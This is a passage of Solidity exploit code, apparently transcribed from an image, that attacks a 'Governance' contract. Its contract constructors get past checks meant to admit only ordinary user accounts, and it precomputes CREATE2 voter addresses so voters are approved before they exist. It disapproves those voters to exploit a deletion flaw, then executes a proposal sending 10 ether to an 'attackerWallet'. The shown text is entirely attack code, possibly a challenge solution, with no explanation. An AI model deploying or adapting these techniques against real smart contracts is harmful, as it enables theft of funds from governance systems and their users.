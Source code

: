 ```
        address _governanceAddress,
        address attackerWallet
    )
        public
        pure
        returns (bytes memory)
    {
        bytes memory creationCode = type(ExploitViceroyEOA).creationCode;
        return abi.encodePacked(creationCode, abi.encode(_governanceAddress, attackerWallet));
    }
}

contract ExploitViceroyEOA {
    using Create2Sample for address;

    Governance public governanceContract;

    //Calls to Governance must be made in constructor to bypass EOA checks
    constructor(address _governanceAddress, address attackerWallet) {
        //create proposal to send funds to attackerWallet
        governanceContract = Governance(_governanceAddress);
        bytes memory proposal = abi.encodeWithSignature("exec(address,bytes,uint256)", attackerWallet, "", 10 ether);
        uint256 proposalId = uint256(keccak256(proposal));
        governanceContract.createProposal(address(this), proposal);

        //Batch create ExploitVoterEOA contracts to vote on proposal
        for (uint256 i; i < 10; i++) {
            bytes memory voterCreationCode = type(ExploitVoterEOA).creationCode;
            bytes memory voterByteCode = abi.encodePacked(voterCreationCode, abi.encode(_governanceAddress, proposalId));
            address voterPrecomputeAddress = address(this).precomputeAddress(bytes32(uint256(i)), voterByteCode);

            //Approve voter since precomputed address will be considered EOA
            governanceContract.approveVoter(voterPrecomputeAddress);

            //Deploy ExploitVoterEOA with precomputed address
            //Constructor will vote for the proposal
            new ExploitVoterEOA{salt: bytes32(uint256(i))}(governanceContract, proposalId);

            //Disapprove voter to exploit delete vulnerability
            governanceContract.disapproveVoter(voterPrecomputeAddress);
        }

        //Execute proposal to send funds to attackerWallet
        governanceContract.executeProposal(proposalId);
    }
}

contract ExploitVoterEOA {
    //To be deployed by ExploitViceroyEOA (msg.sender).
    //Calls to Governance must be made in constructor to bypass EOA checks
    constructor(Governance governance, uint256 proposalId) {
        governance.voteOnProposal(proposalId, true, msg.sender);
    }
}

library Create2Sample {
    function precomputeAddress(
        address contractDeployer,
        bytes32 salt,
        bytes memory contractByteCode
```